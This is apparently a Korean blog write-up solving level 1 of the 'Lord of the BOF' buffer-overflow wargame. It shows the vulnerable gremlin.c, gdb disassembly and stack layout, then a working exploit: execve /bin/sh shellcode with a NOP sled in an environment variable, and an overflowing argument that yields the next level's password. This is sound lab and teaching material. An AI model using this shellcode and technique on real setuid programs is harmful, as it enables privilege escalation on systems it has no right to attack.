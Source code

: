 ```yaml
---
title: LOB 1번 Write-up
date: 2017-8-20 18:05:00
categories: LOB
tags: LOB
---
```


처음부터 LOB를 풀자니 조금 어려워서, 비슷한 오버플로우 문제인 FTZ 9번과 11번 문제의 write-up을 참고해 문제를 풀었습니다.

## LOB 1번

LOB를 설치한 VM의 주소로 접속하면 이러한 화면이 나옵니다.


    _______________________
      _______________________-------------------                       `\
     /:--__                                                              |
    ||< > |                                   ___________________________/
    | \__/_________________-------------------                         |
    |                                                                  |
     |        The Lord of the BOF : The Fellowship of the BOF, 2010    |
     |                                                                  |
     |                                                                  |
      |       [enter to the dungeon]                                    |
      |       gate : gate                                                |
      |                                                                  |
      |       [RULE]                                                     |
       |      - do not use local root exploit                             |
       |      - do not use LD_PRELOAD to my-pass                          |
       |      - do not use single boot                    [h4ck3rsch001] |
      |                                              ____________________|_
      |  ___________________-------------------------                      `\
      |/`--_                                                                 |
      ||[ ]||                                            ___________________/
       \===/___________________--------------------------
    
    login:

LOB에서는 my-pass 명령을 쳤을 때 다음 레벨의 비밀번호인 플래그가 출력되는데, 아직은 gate권한을 가지고 있으므로 이렇게 플래그 출력을 거부합니다.

    [gate@localhost gate]$ id
    uid=500(gate) gid=500(gate) groups=500(gate)
    [gate@localhost gate]$ my-pass
    euid = 500
    I dunno
현재 디렉토리에는 파일이 3개가 있습니다.

    [gate@localhost gate]$ ls -l
    total 16
    -rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
    -rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c

bash2를 띄운 후 gremlin의 소스를 확인하면 이렇게 생겼습니다.

    [gate@localhost gate]$ bash2
    [gate@localhost gate]$ cat gremlin.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - gremlin
            - simple BOF
    */
    
    int main(int argc, char *argv[])
    {
        char buffer[256];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

간단한 BOF라네요.
argc인자로 값을 받아오는 구조이고, 256바이트의 버퍼에 저장합니다.
오버플로우가 생길거라고 말해줍니다.

gdb를 사용하기 위해서는 현재 소유주인 파일만 분석이 가능하므로 gremlin 파일을 복사해 주었습니다.

    [gate@localhost gate]$ cp gremlin gremlin1
    [gate@localhost gate]$ ls -l
    total 28
    -rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
    -rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
    -rwsr-sr-x    1 gate     gate        11987 Aug 20 12:45 gremlin1

메모리에는 256바이트의 버퍼값과 4바이트의 버퍼 주소값이 저장되기 때문에 이처럼 파이썬 코드를 이용해 260바이트의 값을 넣어주면 Segmentation Fault가 출력됨을 알 수 있습니다.
Segmentation fault에러는 할당된 메모리를 넘어서서 잘못된 부분까지 건드릴 때 나오는 에러입니다. 오버플로우의 확인 메시지로 보면 됩니다.

    [gate@localhost gate]$ ./gremlin1 `python -c 'print "a"*260'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Segmentation fault (core dumped)

[uid 참고 자료](http://sosal.kr/122)

### 쉘코드 작성
gremlin 파일에는 setuid가 걸려있으므로 buffer를 넘어서서 sfp 값을 덮어쓰고, ret값을 수정하면 root권한의 쉘을 실행시킬 수 있겠습니다. gdb에서 gremlin의 main함수를 뜯어보면 `main+3` 에서 0x100, 즉 256바이트만큼 ESP의 값을 낮춤으로써 버퍼를 확보하는것이 보입니다.

    (gdb) disass main
    Dump of assembler code for function main:
    0x8048430 <main>:       push   %ebp
    0x8048431 <main+1>:     mov    %esp,%ebp
    0x8048433 <main+3>:     sub    $0x100,%esp
    0x8048439 <main+9>:     cmpl   $0x1,0x8(%ebp)
    0x804843d <main+13>:    jg     0x8048456 <main+38>
    0x804843f <main+15>:    push   $0x80484e0
    0x8048444 <main+20>:    call   0x8048350 <printf>
    0x8048449 <main+25>:    add    $0x4,%esp
    0x804844c <main+28>:    push   $0x0
    0x804844e <main+30>:    call   0x8048360 <exit>
    0x8048453 <main+35>:    add    $0x4,%esp
    0x8048456 <main+38>:    mov    0xc(%ebp),%eax
    0x8048459 <main+41>:    add    $0x4,%eax
    0x804845c <main+44>:    mov    (%eax),%edx
    0x804845e <main+46>:    push   %edx
    0x804845f <main+47>:    lea    0xffffff00(%ebp),%eax
    0x8048465 <main+53>:    push   %eax
    0x8048466 <main+54>:    call   0x8048370 <strcpy>
    0x804846b <main+59>:    add    $0x8,%esp
    0x804846e <main+62>:    lea    0xffffff00(%ebp),%eax
    0x8048474 <main+68>:    push   %eax
    0x8048475 <main+69>:    push   $0x80484ec

추가적인 더미 메모리 구조는 보이지 않으므로 메모리 구조는 이렇게 됩니다.

buffer(256byte)  |  sfp(4byte) | ret(4byte)

따라서 쉘코드는 아래처럼 만들면 되겠습니다.
(buffer를 채울 nop값 256바이트) | (SFP채울 더미 값 4byte) | (쉘코드의 주소값 4byte)

리눅스의 export명령어를 활용해 shell이라는 환경변수를 등록하였습니다. 쉘코드 작성은 이해가 가지 않아 국어시간에 공부하는걸로 하고 25바이트 쉘코드를 받아왔습니다. (성준이형 사랑해요)

    [gate@localhost gate]$ export shell=`python -c 'print "\x90" * 100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'

이제 이 shell이라는 환경변수의 주소값을 찾아서 ret값에 넣어주기만 하면 되겠습니다.

    [gate@localhost gate]$ mkdir temp
    [gate@localhost gate]$ cd temp
    [gate@localhost temp]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    }

    [gate@localhost temp]$ gcc -o addr addr.c
    [gate@localhost temp]$ ls
	addr  addr.c
	[gate@localhost temp]$ ./addr
	0xbffffd90

따라서 shellcode의 주소는 0xbffffd90입니다.

    [gate@localhost gate]$ ./gremlin `python -c 'print "\x90" * 260 + "\x90\xfd\xff\xbf"'`
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA멅?
    bash$ id
    uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
    bash$ my-pass
    euid = 501
    hello bof world

따라서 2번 문제인 cobolt의 비밀번호는 `hello bof world`로 나왔습니다.
